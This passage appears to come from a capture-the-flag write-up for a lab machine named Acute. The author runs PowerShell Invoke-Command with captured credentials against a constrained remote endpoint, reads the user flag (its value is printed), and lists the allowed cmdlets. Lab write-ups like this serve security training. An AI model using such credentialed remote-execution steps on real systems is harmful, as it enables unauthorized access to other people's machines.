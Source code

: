 #### Invoke-Command

A simpler attempt is to just run a command using `Invoke-Command`. This works:

```

PS C:\Utils> Invoke-Command -ScriptBlock { whoami } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
acute\imonks

```

This is enough to read `user.txt`:

```

PS C:\Utils> Invoke-Command -ScriptBlock { cat C:\users\imonks\desktop\user.txt } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
9876b84d3f317ff5c0893e18477e1c13

```

## Shell as jmorgan on Acute-PC01

### Enumeration

#### Limited Shell

To enumerate further, first I need to understand what commands I have access to in this configuration. `Get-Command` will tell me that:

```

PS C:\Utils> Invoke-Command -ScriptBlock { Get-Command } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred

CommandType     Name                                               Version    Source               PSComputerName      
-----------     ----                                               -------    ------               --------------      
Cmdlet          Get-Alias                                          3.1.0.0    Microsoft.PowerSh... ATSSERVER           
Cmdlet          Get-ChildItem                                      3.1.0.0    Microsoft.PowerSh... ATSSERVER           
Cmdlet          Get-Command                                        3.0.0.0    Microsoft.PowerSh... ATSSERVER           
Cmdlet          Get-Content                                        3.1.0.0    Microsoft.PowerSh... ATSSERVER           
Cmdlet          Get-Location                                       3.1.0.0    Microsoft.PowerSh... ATSSERVER           
Cmdlet          Set-Content                                        3.1.0.0    Microsoft.PowerSh... ATSSERVER           
Cmdlet          Set-Location                                       3.1.0.0    Microsoft.PowerSh... ATSSERVER           
Cmdlet          Write-Output                                       3.1.0.0    Microsoft.PowerSh... ATSSERVER

```
